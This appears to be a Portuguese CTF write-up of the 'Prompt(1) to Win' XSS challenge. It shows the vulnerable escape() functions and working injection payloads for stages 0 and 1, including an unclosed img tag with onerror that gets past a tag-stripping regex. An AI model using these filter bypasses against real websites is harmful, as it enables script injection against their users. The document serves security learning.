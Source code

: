# Prompt(1) to Win

###### Solved by @SebastiaoKomada

Este é um desafio de XSS com 15 etapas, focado em técnicas de injeção de JavaScript. O objetivo é contornar os filtros de cada fase até conseguir executar o comando correto.

## About the Challenge
O desafio mostra diferentes formas de Cross-Site Scripting aplicando filtros e sanitizações no input. Cada questão exige manipular a entrada para que o navegador interprete e execute `prompt(1)`.

#### Desafio 0

Código:
````
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}  
````
Resolução funcional:
````
"> <img src=a onerror=prompt(1)>
````

<img width="1146" height="460" alt="Captura de Tela 2025-08-31 às 16 34 46" src="https://github.com/user-attachments/assets/cbffde2c-bdb5-4f83-a97d-42a6ea292a53" />

Explicação:
O input é fechado com ">, o que possibilita injetar código na página. Um exemplo é usar `<img onerror=alert>`, que executa automaticamente e evidencia a vulnerabilidade.

#### Desafio 1

Código:
````
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
} 
````
Resolução funcional:
````
<img src=a onerror=prompt(1)
````

<img width="2372" height="1036" alt="image" src="https://github.com/user-attachments/assets/74edc273-585b-42b5-abfa-19b70cea672c" />

Explicação:
O filtro aplicado pela regex só elimina tags bem formadas que começam com `<` e finalizam com `>`.  
Se a tag não é encerrada, ela passa pelo filtro sem ser alterada.  
Mesmo assim, o navegador reconhece a estrutura de `<img>` e executa o atributo `onerror`, permitindo a execução do código.
